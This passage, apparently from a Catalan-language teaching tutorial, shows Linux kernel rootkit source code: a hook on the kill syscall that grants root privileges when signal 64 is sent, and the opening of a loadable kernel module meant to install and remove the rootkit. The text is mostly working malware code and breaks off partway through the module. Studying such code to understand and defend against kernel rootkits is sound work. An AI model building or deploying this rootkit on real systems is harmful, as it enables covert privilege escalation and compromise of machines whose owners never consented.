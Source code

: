     ```c
    asmlinkage int hook_kill(
        const struct pt_regs *regs)
    {
        void set_root(void);
        int sig = regs->si;
        if (sig == 64)
        {
            printk(KERN_INFO "rootkit: giving root...\n");
            set_root();
            return 0;
        }
        return orig_kill(regs);
    }
    ```

3. Implementarem un mòdul del kernel que utiltizi aquestes funcions i ens permeti instal·lar/desintal·lar el nostre rootkit al sistema.

    ```c 
        #include <linux/init.h>
        #include <linux/module.h>
        #include <linux/kernel.h>
        #include <linux/syscalls.h>
        #include <linux/kallsyms.h>
        #include <linux/version.h>

        #include "ftrace_helper.h"

        MODULE_LICENSE("GPL");
        MODULE_AUTHOR("Jordi Mateo");
        MODULE_DESCRIPTION("");
        MODULE_VERSION("0.01");

        /* After Kernel 4.17.0, the way that syscalls are handled changed
        * to use the pt_regs struct instead of the more familiar function
        * prototype declaration. We have to check for this, and set a
        * variable for later on */
        #if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0))
        #define PTREGS_SYSCALL_STUBS 1
        #endif

        /* We now have to check for the PTREGS_SYSCALL_STUBS flag and
        * declare the orig_kill and hook_kill functions differently
        * depending on the kernel version. This is the largest barrier to 
        * getting the rootkit to work on earlier kernel versions. The
        * more modern way is to use the pt_regs struct. */
        #ifdef PTREGS_SYSCALL_STUBS
        static asmlinkage long (*orig_kill)(const struct pt_regs *);

        /* We can only modify our own privileges, and not that of another
        * process. Just have to wait for signal 64 (normally unused) 
        * and then call the set_root() function. */
        asmlinkage int hook_kill(const struct pt_regs *regs)
        {
            void set_root(void);

